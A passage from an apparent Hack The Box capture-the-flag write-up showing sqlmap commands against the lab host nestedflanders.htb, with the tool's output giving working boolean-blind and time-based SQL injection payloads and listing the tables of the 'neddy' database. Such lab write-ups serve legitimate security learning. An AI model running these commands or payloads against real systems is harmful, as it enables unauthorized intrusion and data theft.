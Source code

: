```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -p id
[...]
sqlmap identified the following injection point(s) with a total of 288 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=587' AND 5533=5533 AND 'BkIC'='BkIC

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=587' AND SLEEP(5) AND 'kUKZ'='kUKZ
---
[00:51:04] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
```

The boolean-blind injection is faster to dump the database and is less susceptible to instability if other people are hammering the box. First I checked the current database used, then dumped the list of tables from database `neddy`:

```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --current-db
[...]
[00:54:27] [INFO] retrieved: neddy
current database:    'neddy'
```

```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --tables -D neddy
[...]
Database: neddy
[11 tables]
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```

I focused on `config`, `idname` and `filepath` tables first. The other tables contain a lot of rows and it would take too long to dump everything. I increased the thread count to make it a bit faster.
